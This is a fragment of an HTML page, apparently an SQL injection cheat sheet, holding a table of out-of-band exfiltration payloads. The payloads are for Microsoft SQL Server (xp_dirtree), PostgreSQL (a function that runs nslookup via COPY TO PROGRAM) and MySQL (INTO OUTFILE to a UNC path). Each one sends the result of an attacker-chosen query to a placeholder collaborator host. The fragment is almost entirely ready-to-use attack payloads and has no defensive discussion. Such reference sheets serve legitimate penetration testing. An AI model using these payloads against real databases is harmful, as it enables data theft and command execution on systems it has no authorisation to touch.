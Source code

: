                 <td><code>
                    declare @p varchar(1024);set @p=(SELECT YOUR-QUERY-HERE);exec('master..xp_dirtree "//'+@p+'.BURP-COLLABORATOR-SUBDOMAIN/a"')
                </code></td>
            </tr>
            <tr>
                <th>
                    PostgreSQL
                </th>
                <td><code>
                    create OR replace function f() returns void as $$<br>
                    declare c text;<br>
                    declare p text;<br>
                    begin<br>
                    SELECT into p (SELECT YOUR-QUERY-HERE);<br>
                    c := 'copy (SELECT '''') to program ''nslookup '||p||'.BURP-COLLABORATOR-SUBDOMAIN''';<br>
                    execute c;<br>
                    END;<br>
                    $$ language plpgsql security definer;<br>
                    SELECT f();
                </code></td>
            </tr>
            <tr>
                <th>
                    MySQL
                </th>
                <td>
                    The following technique works on Windows only:<br>
                    <code>SELECT YOUR-QUERY-HERE INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code>
                </td>
            </tr>
        </table>


</html>